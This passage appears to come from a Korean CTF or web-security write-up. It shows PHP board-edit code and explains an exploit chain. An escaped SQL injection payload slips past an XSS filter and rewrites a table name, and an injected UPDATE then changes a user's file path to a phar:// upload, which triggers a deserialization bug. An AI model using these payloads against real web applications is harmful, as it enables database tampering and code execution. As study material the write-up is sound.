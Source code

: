 ```php
        "status"=>false,
        "msg"=>"존재 하지 않는 게시판 입니다!"
    ];
    resJson($res);
    exit();
}

if($role<$orgtb['role']){
    $res=[
        "status"=>false,
        "msg"=>"게시물을 작성할 권한이 없습니다!!"
    ];
    resJson($res);
    exit();
}

$orgboard=selectBoardOne($dbcon,$orgtb['bname'],$idx);
$title=isset($_POST['title']) ? $_POST['title']: $orgboard['title'];
$content=isset($_POST['content']) ? $_POST['content']: $orgboard['content'];

$tb=$orgtb['bname'];
if(($orgtb['bname'] === $toname)){
    $row2=updateBoard($dbcon,$orgtb['bname'],$owneridx,$idx,$title,$content);
    $row2=$idx;
}else{
    $totb=selectBoardListOne($dbcon,$toname);
    $row2=insertBoard($dbcon,$totb['bname'],$title,$content,$owneridx);
    $row3=deleteBoard($dbcon,$orgtb['bname'],$owneridx,$idx);
    if($row2){ 
        $idx=$row2;
        $tb=$totb['bname'];
    }
}
if($row2){
    $res=["status"=>true,"idx"=>$idx,"bname"=>$tb];
}
$dbcon->close();
resJson($res);
exit();
?>
```        
`$orgtb['bname'] === $toname` 조건을 만족하는 경우, `updateBoard()` 함수를 호출한다. 앞서 언급했던 `$bname` 값을 `,users` 형태로 변조하기 위해선 `boardlist` 테이블을 변조해야하기에     
    
```sql
&#092;\' UNION SELECT &quot;&quot;,&quot;main,users#&quot;,&quot;&quot;,&quot;&quot;;#
```    
         
`$bname` 변수에 위 값을 주면, `filter.php`의 `xssfilter()` 함수에 의해 `\\' UNION SELECT "","main,users#","","";#`로 바뀌게 되며 `boardlist`의 `bname` 컬럼 값이 `main,users#`로 설정된다. 
   
```sql
UPDATE boardmain,users# SET title='
SET users.filepath=x WHERE users.user=x;#', content='$content' WHERE owner='$owneridx' AND idx='$idx'
```   
`bname` 값에 `#`을 넣음으로써 `SET title='`를 주석처리 하고, `$title`에 `\n`를 넣어 `SET users.filepath=x WHERE users.user=x;#`를 처리하도록 SQL을 조작해주면 `users` 테이블의 `filepath` 컬럼 값을 `phar:///var/www/html/uploads/xxxxxx.jpg`로 변조시킬 수 있어 역직렬화 취약점을 발생시킬 수 있게 된다.     
    